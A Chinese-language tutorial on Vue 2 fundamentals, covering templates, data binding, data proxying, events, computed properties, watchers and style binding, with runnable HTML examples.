

> 参考资料：
>
> + Vue 2 [官网](https://cn.vuejs.org/)
> + Vue 3 [官网](https://v3.cn.vuejs.org/guide/introduction.html)
> + 尚硅谷 Vue [视频](https://www.bilibili.com/video/BV1Zy4y1K7SH)

## Vue 介绍

Vue（读音 /vjuː/，类似于 view）是一套用于构建用户界面的<font color="#faa755">渐进式</font>框架。

> 渐进式表示 Vue 可以自底向上逐层的应用。对于简单应用只需要一个轻量小巧的核心库，对于复杂应用可以引入各式各样的 Vue 插件

与其它大型框架不同的是，Vue 被设计为可以自底向上逐层应用。Vue 的核心库只关注视图层，不仅易于上手，还便于与第三方库或既有项目整合。另一方面，当与现代化的工具链以及各种支持类库结合使用时，Vue 也完全能够为复杂的单页应用提供驱动。

### Vue 特点

1. 采用<font color="#faa755">组件化</font>模式，提高代码复用率、且让代码更好维护。
2. <font color="#faa755">声明式</font>编码，让编码人员无需直接操作 DOM，提高开发效率。
3. 使用<font color="#faa755">虚拟 DOM </font>并拥有<font color="#faa755">优秀的 Diff 算法</font>，尽量复用 DOM 节点。

### 学习 Vue 的基础知识

+ ES6 语法规范
+ ES6 模块化
+ 包管理器
+ 原型、原型链
+ 数组常用方法
+ axios
+ promise
+ ...

### 安装 Vue

#### CDN 直接用 `<script>` 引入

```html
<script src="https://cdn.jsdelivr.net/npm/vue@2.6.14/dist/vue.js"></script>
<script src="https://cdn.jsdelivr.net/npm/vue/dist/vue.js"></script>
<script src="https://cdn.jsdelivr.net/npm/vue@3.0.5/dist/vue.cjs.js"></script>
```

#### 脚手架安装

TODO 

## 开始使用

### Hello, Vue

```html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8">
  <title>Title</title>
  <!-- 导入 Vue.js -->
  <!-- 开发环境版本，包含了有帮助的命令行警告 -->
  <script src="https://cdn.jsdelivr.net/npm/vue/dist/vue.js"></script>
</head>

<body>
  <!--view层-->
  <div id="app">
    {{message}},{{name.toUpperCase()}}!
  </div>

  <script>
    Vue.config.productionTip = false //阻止 Vue 在启动时生成生产提示。
    
    // 创建 Vue 实例
    var vm = new Vue({
      // element 元素，用于指定当前 Vue 实例为哪个容器服务，值通常为 CSS 选择器字符串
      el: "#app",
      // Model 数据，用于存储数据，数据供 el 所指定的容器去使用
      data: {
        message: "Hello",
        name: "Halo"
      }
    });
  </script>
</body>

</html>
```

数据和 DOM 已经被建立了关联，所有东西都是响应式的。打开浏览器的 JavaScript 控制台，并修改 `vm.message` 的值，将看到上例相应地更新。

1. 想让 Vue 工作，就必须创建一个 Vue 实例，且要传入一个配置对象；
2. root 容器里的代码依然符合 html 规范，只不过混入了一些特殊的 Vue 语法；
3. root 容器里的代码被称为“ Vue 模板”；
4. Vue 实例和容器是<font color="#faa755">一一对应</font>的；
5. 真实开发中只有一个 Vue 实例，并且会配合着组件一起使用；
6. `{{xxx}}` 中的 xxx 要写 JS 表达式，且 xxx 可以自动读取到 data 中的所有属性；
7. 一旦 `data` 中的数据发生改变，那么页面中用到该数据的地方也会自动更新；

### 模板语法

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>模板语法</title>
    <!-- 引入 Vue -->
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<!-- 准备好一个容器 -->
<div id="root">
    <h1>插值语法</h1>
    <h3>你好，{{name}}</h3>
    <hr/>
    <h1>指令语法</h1>
    <a v-bind:href="school.url.toUpperCase()" x="hello">点我去{{school.name}}学习1</a>
    <!-- v-bind: 简写为 : -->
    <a :href="school.url" x="hello">点我去{{school.name}}学习2</a>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 Vue 在启动时生成生产提示。

    new Vue({
        el: '#root',
        data: {
            name: 'jack',
            school: {
                name: 'Halo',
                url: 'https://www.halo123.top',
            }
        }
    })
</script>
</html>
```

插值语法：

+ 功能：用于解析标签体内容
+ 语法：`{{xxx}}`，xxx 会作为 JS 表达式解析

指令语法：

+ 功能：解析标签属性、解析标签体内容、绑定事件
+ 举例：`v-bind:href = 'xxxx'`，xxx 会作为 JS 表达式被解析。
+ 备注：Vue 中有有很多的指令，且形式都是：`v-xxx`，此处只是用 `v-bind` 举个例子

### 数据绑定

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>数据绑定</title>
    <!-- 引入 Vue -->
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>

<!-- 准备好一个容器-->
<div id="root">
    <!-- 普通写法 -->
    <!-- 单向数据绑定：<input type="text" v-bind:value="name"><br/> -->
    <!-- 双向数据绑定：<input type="text" v-model:value="name"><br/> -->

    <!-- 简写 -->
    单向数据绑定：<input type="text" :value="name"><br/>
    双向数据绑定：<input type="text" v-model="name"><br/>

    <!-- 如下代码是错误的，因为v-model只能应用在表单类元素（输入类元素）上 -->
    <!-- <h2 v-model:x="name">你好啊</h2> -->
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 Vue 在启动时生成生产提示。

    new Vue({
        el: '#root',
        data: {
            name: 'Halo'
        }
    })
</script>
</html>
```

Vue 中有 2 种数据绑定的方式：

+ 单向绑定 `v-bind`：数据只能从 data 流向页面。
+ 双向绑定 `v-model`：数据不仅能从 data 流向页面，还可以从页面流向 data。
  + `v-model:value` 可以简写为 `v-model`，因为 `v-model` 默认收集的就是 `value` 值
  + `v-model` 只能应用在表单类元素（输入类元素）上（如：`input`、`select` 等）

### `el` 与 `data` 的两种写法

```html
<body>
<!-- 准备好一个容器 -->
<div id="root">
    <h1>你好，{{name}}</h1>
</div>
</body>
```

```html
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 Vue 在启动时生成生产提示。

    // el 的第一种写法，之前使用的写法
    const v = new Vue({
        el:'#root', 
        data:{
            name:'Halo'
        }
    })
    console.log(v)
</script>
```

```html
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 Vue 在启动时生成生产提示。

    // el 的第二种写法，更加灵活
    const v = new Vue({
        data:{
            name:'Halo'
        }
    })
    console.log(v)
    v.$mount('#root') // 第二种写法，更加灵活，mount 挂载
</script>
```

`el` 的 2 种写法：
+ new Vue 时候配置 `el` 属性
+ 先创建 Vue 实例，随后再通过 `vm.$mount('#root')` 指定 `el` 的值


```html
<script type="text/javascript">
    Vue.config.productionTip = false //阻止 Vue 在启动时生成生产提示
    
    new Vue({
        el: '#root',
        // data 的第一种写法：对象式
        data:{
            name:'Halo'
        }
    })
</script>
```

```html
<script type="text/javascript">
    Vue.config.productionTip = false // 阻止 Vue 在启动时生成生产提示
    
    new Vue({
        el: '#root',
        // data 的第二种写法：函数式
        data() {
            console.log('@@@', this) // 此处的 this 是 Vue 实例对象
            // 由 Vue 管理的函数，一定不要写箭头函数
            // 一旦写了箭头函数，this 就不再是 Vue 实例，而是全局 window 实例
            return {
                name: 'Halo'
            }
        }
    })
</script>
```

`data` 的 2 种写法：

+  对象式
+ 函数式，使用组件时，`data` 必须使用函数式，否则会报错。

### MVVM 模型

1. M 模型（Model）：对应 `data` 中的数据
2. V 视图（View）：模板 
3. VM 视图模型（View Model）： Vue 实例对象


```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>理解MVVM</title>
    <!-- 引入 Vue -->
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>

<!-- View -->
<div id="root">
    <h1>学校名称：{{name}}</h1>
    <h1>学校地址：{{address}}</h1>
    <h1>测试一下1：{{1+1}}</h1>
    <h1>测试一下2：{{$options}}</h1>
    <h1>测试一下3：{{$emit}}</h1>
    <h1>测试一下4：{{_c}}</h1>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false // 阻止 Vue 在启动时生成生产提示

    // View Model
    const vm = new Vue({
        el: '#root',
        // Model
        data: {
            name: 'Halo',
            address: '北京',
        }
    })
    console.log(vm)
</script>
</html>
```

1. data 中所有的属性，最后都出现在了 View Model 身上。
2. View Model 身上所有的属性及 Vue 原型上所有属性，在 Vue 模板中都可以直接使用

## 数据代理

### `Object.defineProperty` 方法

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>回顾Object.defineProperty方法</title>
</head>
<body>
<script type="text/javascript">
    let number = 18
    let person = {
        name: '张三',
        sex: '男',
    }

    Object.defineProperty(person, 'age', {
        // value:18,
        // enumerable:true,  // 控制属性是否可以枚举，默认值是 false
        // writable:true,    // 控制属性是否可以被修改，默认值是 false
        // configurable:true // 控制属性是否可以被删除，默认值是 false

        // 当有人读取 person 的 age 属性时，get 函数 (getter) 就会被调用，且返回值就是 age 的值
        get() {
            console.log('有人读取 age 属性了')
            return number
        },

        // 当有人修改 person 的 age 属性时，set 函数 (setter) 就会被调用，且会收到修改的具体值
        set(value) {
            console.log('有人修改了 age 属性，且值是', value)
            number = value
        }
    })

    // console.log(Object.keys(person))
    console.log(person)

</script>
</body>
</html>
```

### 何为数据代理

数据代理：通过一个对象代理对另一个对象中属性的操作（读/写）

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>何为数据代理</title>
</head>
<body>
<!-- 数据代理：通过一个对象代理对另一个对象中属性的操作（读/写）-->
<script type="text/javascript">
    let obj = {x: 100}
    let obj2 = {y: 200}

    Object.defineProperty(obj2, 'x', {
        get() {
            return obj.x
        },
        set(value) {
            obj.x = value
        }
    })
</script>
</body>
</html>
```

### Vue 中的数据代理

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>Vue中的数据代理</title>
    <!-- 引入Vue -->
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>

<div id="root">
    <h2>学校名称：{{name}}</h2>
    <h2>学校地址：{{address}}</h2>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false // 阻止 Vue 在启动时生成生产提示。

    const vm = new Vue({
        el: '#root',
        data: {
            name: 'Halo',
            address: '北京'
        }
    })
</script>
</html>
```



Vue 中的数据代理：通过 vm 对象来代理 data 对象中属性的操作（读/写）

Vue 中数据代理的好处：更加方便的操作 data 中的数据

基本原理： 通过 `Object.defineProperty()` 把 data 对象中所有属性添加到 vm 上。为每一个添加到 vm 上的属性，都指定一个 getter/setter。在 getter/setter 内部去操作（读/写）data 中对应的属性。

## 事件处理

### 事件的基本使用

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>事件的基本使用</title>
    <!-- 引入 Vue -->
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root">
    <h2>欢迎来到{{name}}学习</h2>
    <!-- <button v-on:click="showInfo">点我提示信息</button> -->
    <button @click="showInfo1">点我提示信息1（不传参）</button>
    <button @click="showInfo2($event,66)">点我提示信息2（传参）</button>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false // 阻止 vue 在启动时生成生产提示

    const vm = new Vue({
        el: '#root',
        data: {
            name: 'Halo',
        },
        methods: {
            showInfo1(event) {
                // console.log(event.target.innerText)
                // console.log(this) // 此处的 this 是 vm
                alert('同学你好！')
            },
            showInfo2(event, number) {
                console.log(event, number)
                // console.log(event.target.innerText)
                // console.log(this) // 此处的 this 是 vm
                alert('同学你好！！' + number)
            }
        }
    })
</script>
</html>
```

事件的基本使用：

1. 使用 `v-on:xxx` 或 `@xxx` 绑定事件，其中 xxx 是事件名；
2. 事件的回调需要配置在 `methods` 对象中，最终会在 vm 上；
3. `methods` 中配置的函数，不要用箭头函数！否则 `this` 就不是 vm 了；
4. `methods` 中配置的函数，都是被 Vue 所管理的函数，`this` 的指向是 vm 或组件实例对象；
5. `@click="demo"` 和 `@click="demo($event)"` 效果一致，但后者可以传参；

### 事件修饰符

Vue 中的事件修饰符：
1. prevent：阻止默认事件（常用）；
2. stop：阻止事件冒泡（常用）；
3. once：事件只触发一次（常用）；
4. capture：使用事件的捕获模式；
5. self：只有 `event.target` 是当前操作的元素时才触发事件；
6. passive：事件的默认行为立即执行，无需等待事件回调执行完毕；

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>事件修饰符</title>
    <script type="text/javascript" src="./js/vue.js"></script>
    <style>
        * {
            margin-top: 20px;
        }

        .demo1 {
            height: 50px;
            background-color: skyblue;
        }

        .box1 {
            padding: 5px;
            background-color: skyblue;
        }

        .box2 {
            padding: 5px;
            background-color: orange;
        }

        .list {
            width: 200px;
            height: 200px;
            background-color: peru;
            overflow: auto;
        }

        li {
            height: 100px;
        }
    </style>
</head>
<body>
<div id="root">
    <h2>欢迎来到{{name}}学习</h2>
    <!-- 阻止默认事件（常用） -->
    <a href="https://whl123456.top" @click.prevent="showInfo">点我提示信息</a>

    <!-- 阻止事件冒泡（常用） -->
    <div class="demo1" @click="showInfo">
        <button @click.stop="showInfo">点我提示信息</button>
        <!-- 修饰符可以连续写 -->
        <!-- <a href="https://whl123456.top" @click.prevent.stop="showInfo">点我提示信息</a> -->
    </div>

    <!-- 事件只触发一次（常用） -->
    <button @click.once="showInfo">点我提示信息</button>

    <!-- 使用事件的捕获模式 -->
    <div class="box1" @click.capture="showMsg(1)">
        div1
        <div class="box2" @click="showMsg(2)">
            div2
        </div>
    </div>

    <!-- 只有 event.target 是当前操作的元素时才触发事件； -->
    <div class="demo1" @click.self="showInfo">
        <button @click="showInfo">点我提示信息</button>
    </div>

    <!-- 事件的默认行为立即执行，无需等待事件回调执行完毕； -->
    <ul @wheel.passive="demo" class="list">
        <li>1</li>
        <li>2</li>
        <li>3</li>
        <li>4</li>
    </ul>

</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false // 阻止 Vue 在启动时生成生产提示。

    new Vue({
        el: '#root',
        data: {
            name: 'Halo'
        },
        methods: {
            showInfo(e) {
                alert('同学你好！')
                // console.log(e.target)
            },
            showMsg(msg) {
                console.log(msg)
            },
            demo() {
                for (let i = 0; i < 100000; i++) {
                    console.log('#')
                }
                console.log('累坏了')
            }
        }
    })
</script>
</html>
```

### 键盘事件

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>键盘事件</title>
    <!-- 引入Vue -->
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>

<div id="root">
    <h2>欢迎来到{{name}}学习</h2>
    <input type="text" placeholder="按下回车提示输入" @keydown.huiche="showInfo">
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false // 阻止 Vue 在启动时生成生产提示。
    Vue.config.keyCodes.huiche = 13 // 定义了一个别名按键

    new Vue({
        el: '#root',
        data: {
            name: 'Halo'
        },
        methods: {
            showInfo(e) {
                // console.log(e.key,e.keyCode)
                console.log(e.target.value)
            }
        },
    })
</script>
</html>
```

Vue 中常用的按键别名：

+ 回车 => enter
+  删除 => delete（捕获“删除”和“退格”键）
+ 退出 => esc
+ 空格 => space
+ 换行 => tab（特殊，必须配合 `keydown` 去使用）
+ 上 => up
+ 下 => down
+ 左 => left
+ 右 => right

Vue 未提供别名的按键，可以使用按键原始的 key 值去绑定，但注意要转为 kebab-case（短横线命名）

系统修饰键（用法特殊）：ctrl、alt、shift、meta

1. 配合 `keyup` 使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。（可以连写）
2. 配合 `keydown` 使用：正常触发事件。

也可以使用 `keyCode` 去指定具体的按键（不推荐）

`Vue.config.keyCodes.自定义键名 = 键码`，可以去定制按键别名（不推荐）

## 计算属性

### 姓名案例

插值语法实现

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>姓名案例_插值语法实现</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root">
    姓：<input type="text" v-model="firstName"> <br/><br/>
    名：<input type="text" v-model="lastName"> <br/><br/>
    <!-- 不推荐使用复杂的表达式 -->
    全名：<span>{{firstName.slice(0, 4)}}-{{lastName}}</span>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            firstName: '张',
            lastName: '三'
        }
    })
</script>
</html>
```

methods 实现

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>姓名案例_methods实现</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>

<div id="root">
    姓：<input type="text" v-model="firstName"> <br/><br/>
    名：<input type="text" v-model="lastName"> <br/><br/>
    全名：<span>{{fullName()}}</span>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el: '#root',
        data: {
            firstName: '张',
            lastName: '三'
        },
        methods: {
            fullName() {
                console.log('@---fullName')
                return this.firstName + '-' + this.lastName
            }
        },
    })
</script>
</html>
```

计算属性实现

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>姓名案例_计算属性实现</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root">
    姓：<input type="text" v-model="firstName"> <br/><br/>
    名：<input type="text" v-model="lastName"> <br/><br/>
    测试：<input type="text" v-model="x"> <br/><br/>
    全名：<span>{{fullName}}</span> <br/><br/>
    <!-- 数据进行了缓存 -->
    全名：<span>{{fullName}}</span> <br/><br/>
    全名：<span>{{fullName}}</span> <br/><br/>
    全名：<span>{{fullName}}</span>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            // 属性
            firstName: '张',
            lastName: '三',
            x: '你好'
        },
        computed: {
            // 计算属性
            fullName: {
                // get 有什么作用？当有人读取 fullName 时，get 就会被调用，且返回值就作为 fullName 的值
                // get 什么时候调用？1.初次读取 fullName 时。2.所依赖的数据发生变化时。
                get() {
                    console.log('get 被调用了')
                    // console.log(this) // 此处的 this 是 vm
                    return this.firstName + '-' + this.lastName
                },
                // set 什么时候调用? 当 fullName 被修改时。
                set(value) {
                    console.log('set', value)
                    const arr = value.split('-')
                    this.firstName = arr[0]
                    this.lastName = arr[1]
                }
            }
        }
    })
</script>
</html>
```

 计算属性：

1. 定义：要用的属性不存在，要通过已有属性计算得来。
2. 原理：底层借助了 `Objcet.defineproperty` 方法提供的 getter 和 setter。
3. get 函数什么时候执行？1、初次读取时会执行一次。2、当依赖的数据发生改变时会被再次调用。
4. 优势：与 `methods` 实现相比，内部有缓存机制（复用），效率更高，调试方便。
5. 备注：计算属性最终会出现在 vm 上，直接读取使用即可。如果计算属性要被修改，那必须写 set 函数去响应修改，且 set 中要引起计算时依赖的数据发生改变。

### 计算属性简写

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>姓名案例_计算属性实现</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root">
    姓：<input type="text" v-model="firstName"> <br/><br/>
    名：<input type="text" v-model="lastName"> <br/><br/>
    全名：<span>{{fullName}}</span> <br/><br/>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            firstName: '张',
            lastName: '三',
        },
        computed: {
            // 完整写法
            /* fullName:{
                get(){
                    console.log('get被调用了')
                    return this.firstName + '-' + this.lastName
                }
            } */
            // 简写，只读不改
            fullName() {
                console.log('get 被调用了')
                return this.firstName + '-' + this.lastName
            }
        }
    })
</script>
</html>
```

## 侦听属性

### 天气案例

基础案例

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>天气案例</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root">
    <h2>今天天气很{{info}}</h2>
    <!-- 绑定事件的时候：@xxx="yyy" yyy可以写一些简单的语句 -->
    <!-- <button @click="isHot = !isHot">切换天气</button> -->
    <button @click="changeWeather">切换天气</button>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            isHot: true,
        },
        computed: {
            info() {
                return this.isHot ? '炎热' : '凉爽'
            }
        },
        methods: {
            changeWeather() {
                this.isHot = !this.isHot
            }
        },
    })
</script>
</html>
```

侦听属性

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>天气案例_侦听属性</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>

<div id="root">
    <h2>今天天气很{{info}}</h2>
    <button @click="changeWeather">切换天气</button>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            isHot: true,
        },
        computed: {
            info() {
                return this.isHot ? '炎热' : '凉爽'
            }
        },
        methods: {
            changeWeather() {
                this.isHot = !this.isHot
            }
        },
        watch: {
            isHot: {
                immediate: true, // 初始化时让 handler 调用一下，默认 false
                // handler 什么时候调用？当 isHot 发生改变时。
                handler(newValue, oldValue) {
                    console.log('isHot 被修改了', newValue, oldValue)
                }
            }
        }
    })
</script>
</html>
```

其他配置方法

```html
<script>
    vm.$watch('isHot', {
        immediate: true,
        handler(newValue, oldValue) {
            console.log('isHot被修改了', newValue, oldValue)
        }
    })
</script>
```

侦听属性 watch：

1. 当被侦听的属性变化时，回调函数自动调用，进行相关操作
2. 侦听的属性必须存在，才能进行侦听！！
3. 侦听的两种写法：new Vue 时传入 watch 配置；通过 `vm.$watch` 侦听

### 深度侦听

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>天气案例_深度侦听</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>

<div id="root">
    <h2>今天天气很{{info}}</h2>
    <button @click="changeWeather">切换天气</button>
    <hr/>
    <h3>a 的值是:{{numbers.a}}</h3>
    <button @click="numbers.a++">点我让 a+1</button>
    <h3>b 的值是:{{numbers.b}}</h3>
    <button @click="numbers.b++">点我让 b+1</button>
    <button @click="numbers = {a:666,b:888}">彻底替换掉 numbers</button>
    {{numbers.c.d.e}}
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            isHot: true,
            numbers: {
                a: 1,
                b: 1,
                c: {
                    d: {
                        e: 100
                    }
                }
            }
        },
        computed: {
            info() {
                return this.isHot ? '炎热' : '凉爽'
            }
        },
        methods: {
            changeWeather() {
                this.isHot = !this.isHot
            }
        },
        watch: {
            isHot: {
                handler(newValue, oldValue) {
                    console.log('isHot被修改了', newValue, oldValue)
                }
            },
            // 侦听多级结构中某个属性的变化
            'numbers.a': {
                handler() {
                    console.log('a 被改变了')
                }
            },
            // 侦听多级结构中所有属性的变化
            numbers: {
                deep: true,
                handler() {
                    console.log('numbers 改变了')
                }
            }
        }
    })

</script>
</html>
```

深度侦听：

1. Vue 中的 watch 默认不监测对象内部值的改变（一层）。
2. 配置 `deep:true` 可以监测对象内部值改变（多层）。

备注：

1. Vue 自身可以监测对象内部值的改变，但 Vue 提供的 watch 默认不可以！
2. 使用 watch 时根据数据的具体结构，决定是否采用深度侦听。

### 侦听属性简写

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>天气案例_侦听属性_简写</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root">
    <h2>今天天气很{{info}}</h2>
    <button @click="changeWeather">切换天气</button>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            isHot: true,
        },
        computed: {
            info() {
                return this.isHot ? '炎热' : '凉爽'
            }
        },
        methods: {
            changeWeather() {
                this.isHot = !this.isHot
            }
        },
        watch: {
            // 正常写法
            isHot: {
                handler(newValue, oldValue) {
                    console.log('isHot被修改了', newValue, oldValue)
                }
            },
            // 简写
            isHot(newValue, oldValue) {
                console.log('isHot被修改了', newValue, oldValue, this)
            }
        }
    })
    
</script>
</html>
```

```html
<script>
    //正常写法
    vm.$watch('isHot', {
        immediate: true, // 初始化时让 handler 调用一下
        deep: true, // 深度侦听
        handler(newValue, oldValue) {
            console.log('isHot被修改了', newValue, oldValue)
        }
    })

    //简写
    vm.$watch('isHot', (newValue, oldValue) => {
        console.log('isHot被修改了', newValue, oldValue, this)
    })
</script>  
```

不需要配置 `immediate`、`deep` 可以使用简写

### 姓名案例 watch 实现

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>姓名案例_watch实现</title>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root">
    姓：<input type="text" v-model="firstName"> <br/><br/>
    名：<input type="text" v-model="lastName"> <br/><br/>
    全名：<span>{{fullName}}</span> <br/><br/>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            firstName: '张',
            lastName: '三',
            fullName: '张-三'
        },
        watch: {
            firstName(val) {
                setTimeout(() => {
                    // ⭐
                    console.log(this)
                    this.fullName = val + '-' + this.lastName
                }, 1000);
            },
            lastName(val) {
                this.fullName = this.firstName + '-' + val
            }
        }
    })
</script>
</html>
```

computed 和 watch 之间的区别：

1. computed 能完成的功能，watch 都可以完成。
2. watch 能完成的功能，computed 不一定能完成，例如：watch 可以进行异步操作。

两个重要的小原则：

1. 所被 Vue 管理的函数，最好写成普通函数，这样 this 的指向才是 vm 或组件实例对象。
2. 所有不被 Vue 所管理的函数（定时器的回调函数、ajax 的回调函数等、Promise 的回调函数），最好写成箭头函数，这样 this 的指向才是 vm 或组件实例对象。

## 绑定样式

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8"/>
    <title>绑定样式</title>
    <style>
        .basic {
            width: 400px;
            height: 100px;
            border: 1px solid black;
        }

        .happy {
            border: 4px solid red;;
            background: linear-gradient(30deg, yellow, pink, orange, yellow);
        }

        .sad {
            border: 4px dashed rgb(2, 197, 2);
            background-color: gray;
        }

        .normal {
            background-color: skyblue;
        }

        .halo1 {
            background-color: yellowgreen;
        }

        .halo2 {
            font-size: 30px;
            text-shadow: 2px 2px 10px red;
        }

        .halo3 {
            border-radius: 20px;
        }
    </style>
    <script type="text/javascript" src="./js/vue.js"></script>
</head>
<body>
<div id="root">
    <!-- 绑定 class 样式--字符串写法，适用于：样式的类名不确定，需要动态指定 -->
    <div class="basic" :class="mood" @click="changeMood">{{name}}</div>
    <br/><br/>

    <!-- 绑定 class 样式--数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
    <div class="basic" :class="classArr">{{name}}</div>
    <br/><br/>

    <!-- 绑定 class 样式--对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
    <div class="basic" :class="classObj">{{name}}</div>
    <br/><br/>

    <!-- 绑定 style 样式--对象写法 -->
    <div class="basic" :style="styleObj">{{name}}</div>
    <br/><br/>

    <div class="basic" :style="[styleObj,styleObj2]">{{name}}</div>
    <br/><br/>

    <!-- 绑定 style 样式--数组写法 -->
    <div class="basic" :style="styleArr">{{name}}</div>
</div>
</body>

<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            name: 'Halo',
            mood: 'normal',
            classArr: ['halo1', 'halo2', 'halo3'],
            classObj: {
                halo1: false,
                halo2: false,
            },
            styleObj: {
                fontSize: '40px',
                color: 'red',
            },
            styleObj2: {
                backgroundColor: 'orange'
            },
            styleArr: [
                {
                    fontSize: '40px',
                    color: 'blue',
                },
                {
                    backgroundColor: 'gray'
                }
            ]
        },
        methods: {
            changeMood() {
                const arr = ['happy', 'sad', 'normal']
                const index = Math.floor(Math.random() * 3)
                this.mood = arr[index]
            }
        },
    })
</script>

</html>
```

绑定样式：

1. class 样式。

  + 写法 `:class="xxx"` xxx 可以是字符串、对象、数组。
  + 字符串写法适用于：类名不确定，要动态获取。
  + 对象写法适用于：要绑定多个样式，个数不确定，名字也不确定。
